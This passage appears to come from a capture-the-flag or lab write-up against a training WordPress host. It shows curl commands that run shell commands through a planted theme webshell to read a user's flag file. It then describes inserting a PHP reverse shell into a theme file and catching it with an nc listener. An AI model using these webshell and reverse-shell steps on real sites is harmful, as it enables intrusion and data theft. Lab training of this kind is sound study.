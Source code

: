 I have created a webshell. Now I can send my linux commands :

```bash
url='http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php'
curl "$url?cmd=ls+-la+/home/erika"
curl "$url?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"
```

I get the file `d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt` content and there is the flag inside of it.

### Reverse Shell

Then I copy the content of the file `/usr/share/webshells/php/php-reverse-shell.php` at the beggining of the file `archive.php` and edit the IP and PORT variables :

<figure><img src="../../../../.gitbook/assets/script.png" alt=""><figcaption></figcaption></figure>

I open a listener on the attacker :

```bash
nc -lnvp 1234
```

I send a request to :

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/archive.php
```
